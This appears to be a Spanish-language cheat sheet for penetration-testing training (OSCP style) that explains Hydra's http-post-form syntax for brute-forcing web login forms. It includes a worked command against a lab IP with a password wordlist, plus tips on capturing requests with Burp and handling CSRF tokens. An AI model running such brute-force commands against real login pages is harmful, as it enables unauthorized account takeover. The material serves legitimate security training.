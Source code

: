 
# 🐉 Hydra HTTP POST Form Cheat Sheet (OSCP style)

## 🔹 Comando base:
prestas atencia a http y https
```bash
hydra <IP> http-post-form "<ruta>:<parametros>:<mensaje_error>" -l <usuario> -P <diccionario>


```

---

## 🔸 Parámetros explicados:

- `http-post-form`: indica que el objetivo es un formulario que usa el método POST.
- `<ruta>`: ruta del formulario, por ejemplo: `/login.php`.
- `<parametros>`: datos que se envían en el POST. Sustituye:
  - `^USER^` por el nombre de usuario si usas lista de usuarios.
  - `^PASS^` por las contraseñas del diccionario.
- `<mensaje_error>`: texto exacto que aparece cuando el login falla. Hydra lo usa para detectar intentos fallidos.
- `-l`: un solo usuario.
- `-L`: lista de usuarios.
- `-P`: diccionario de contraseñas.
- `-t`: número de hilos (por defecto 16).
- `-vV`: modo verbo detallado, útil para debugging.

---

## 🧪 Ejemplo adaptado:
```bash
hydra 10.10.10.43 http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -l 0xdf -P /usr/share/seclists/Passwords/twitter-banned.txt
```

---

## ⚠️ Consejos útiles:

- Usa `Burp` para capturar la petición exacta y copiar los parámetros tal cual.
- Asegúrate de identificar bien el mensaje de error. Si usas uno incorrecto, Hydra puede no detectar el login válido.
- Si el formulario también usa `username`, ponlo en los parámetros: `username=^USER^`.
- Si hay redirecciones, añade `-f` para parar tras encontrar la primera combinación válida.
- Si hay CSRF tokens u otros valores dinámicos, **Hydra no funcionará directamente**. En ese caso, usa `Burp Intruder` o un script con `requests`.

---

Happy hacking! ⚔️